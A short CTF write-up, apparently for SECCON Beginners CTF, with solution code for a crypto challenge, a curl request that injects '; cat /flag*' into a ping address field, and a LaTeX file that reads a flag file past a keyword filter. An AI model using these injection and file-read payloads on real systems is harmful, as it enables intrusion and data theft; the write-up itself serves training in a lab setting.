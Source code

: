 # SECCON Beginners CTF 2021

- https://github.com/SECCON/Beginners_CTF_2022

## Crypto

### CoughingFox

- https://www.youtube.com/watch?v=r0Ofky8LGJU&t=300s

#### Solution 1

```python
#!/usr/bin/env python3
from gmpy2 import isqrt
# c = (f + i)**2 + i
# f = sqrt(c - i) - i
# sqrt() が整数になるかどうかで i を判定する
cipher = [12147, 20481, 7073, 10408, 26615, 19066, 19363, 10852, 11705, 17445, 3028, 10640, 10623, 13243, 5789, 17436, 12348, 10818, 15891, 2818, 13690, 11671, 6410, 16649, 15905, 22240, 7096, 9801, 6090, 9624, 16660, 18531, 22533, 24381, 14909, 17705, 16389, 21346, 19626, 29977, 23452, 14895, 17452, 17733, 22235, 24687, 15649, 21941, 11472]
length = len(cipher)
flag = [0] * length
for c in cipher:
    for i in range(length):
        root = isqrt(c - i)
        if root**2 == c - i:
            flag[i] = root - i
            break
print(''.join([chr(ch) for ch in flag]))
```

### PrimeParty

- https://www.youtube.com/watch?v=r0Ofky8LGJU&t=948s

#### Solution 1

## Web

### util

- https://www.youtube.com/watch?v=r0Ofky8LGJU&t=550s

#### Solution 1

- 開発者ツール > Network > Name > `ping` を右クリック、Copy > Copy as cURL (bash)

```zsh
curl 'https://172.23.177.114/util/ping' \
  -H 'Content-Type: application/json' \
  --data-raw '{"address":"127.0.0.1; cat /flag*"}' \
  --insecure |
  jq .result | grep -o 'ctf4b{.*}'
```

### textex

- https://www.youtube.com/watch?v=r0Ofky8LGJU&t=2070

#### Solution 1

```tex
\documentclass{article}
\usepackage{verbatim}
\newcommand{\ag}{ag}
\begin{document}
\verbatiminput{fl\ag}
\end{document}
```
